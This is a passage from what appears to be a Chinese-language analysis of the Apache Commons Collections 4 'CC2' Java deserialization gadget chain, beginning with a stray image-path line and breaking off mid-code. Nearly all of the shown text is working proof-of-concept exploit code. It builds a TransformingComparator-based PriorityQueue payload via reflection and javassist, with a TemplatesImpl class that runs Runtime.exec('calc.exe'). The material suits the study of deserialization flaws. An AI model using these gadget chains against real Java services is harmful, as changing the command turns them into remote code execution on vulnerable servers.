 ```
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);
        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("cc2.bin"));
        os.writeObject(queue);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("cc2.bin"));
        fos.readObject();
    }
}

```

# 利用链2分析

根据poc来分析

```
package CC2;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Test2 {

    public static void main(String[] args) throws Exception{

        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");

        TransformingComparator Tcomparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
```